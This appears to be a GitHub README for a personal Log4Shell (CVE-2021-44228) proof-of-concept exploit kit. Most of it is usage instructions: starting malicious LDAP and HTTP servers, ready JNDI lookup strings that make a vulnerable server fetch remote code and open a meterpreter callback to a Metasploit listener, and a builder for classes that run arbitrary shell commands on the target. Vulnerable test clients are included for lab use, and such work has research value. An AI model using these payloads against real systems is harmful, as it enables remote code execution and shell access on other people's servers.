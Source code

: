 # l4s_poc
Log4Shell (Cve-2021-44228) Proof Of Concept

This is a personal project that runs a simple POC that will host an LDAP
server and an HTTP server for the Log4Shell exploit.  

## Server
The run_servers.py will setup a stripped down meterpreter client that will call
back to the Metasploit instance passed into the ldap request.  **This will run
the meterpreter instance in a thread in the original process that was affected
by the Log4Shell exploit.**

The LDAP server is written in Java and the HTTP server is hosted in python and
will serve from a newly created wwwroot directory.  This does require java,
javac and mvn to build the exploits, and host the LDAP server.  I used Java 8.

Python3 is also required.

#### to get started
run: python3 run_servers.py <your_ip_address> <the_http_port> [ldap_port]

Then pass the jndi string to a vulnerable client to log i.e:
if your host was 10.20.30.40 and your metasploit instance was 20.30.40.50 
listening on port 4444 it would look like this : 
'${jndi:ldap://10.20.30.40:1389/#MM_20_30_40_50_4444}'

#### Building executable commands
You can build classes that will launch executable on the source system.
You can have different commands for windows or linux based systems.
For instance to create a class called TestCmd that will launch a calculator
on Windows systems and Firefox on linux systems run :
**python3 build_cmd.py TestCmd -w "Calc.exe" -l "firefox"**

You can have multiple pre built classes.  If you do not specify a command 
for the target os then nothing is executed.  Note these commands are run 
as CMD \c "your command" on windows and /bin/sh -c "your command" on linux.

To trigger the above command use the name of the class you created i.e : 
'${jndi:ldap://10.20.30.40:1389/#TestCmd'

## Clients
The clients directory has 2 clients that can be executed.  One is a simple command
line program that will write an error log for whatever the 1st param passed in is.

The other is a basic web server that will write an error log using the log_me
header information.  Note this should be run in an isolated controlled env.

#### To build the clients :
navigate to the clients dir and run  ./build_clients.sh

#### To execute the webserver : 
from the clients dir run : java -cp target/l4sclients-1.0-SNAPSHOT-all.jar Log4jWebServer [Port_number]

#### To execute the cmd line : 
from the clients dir run : java -cp target/l4sclients-1.0-SNAPSHOT-all.jar Log4jCmdLine '${jndi:ldap://127.0.0.1:1389/#MM_127_0_0_1_4444}'



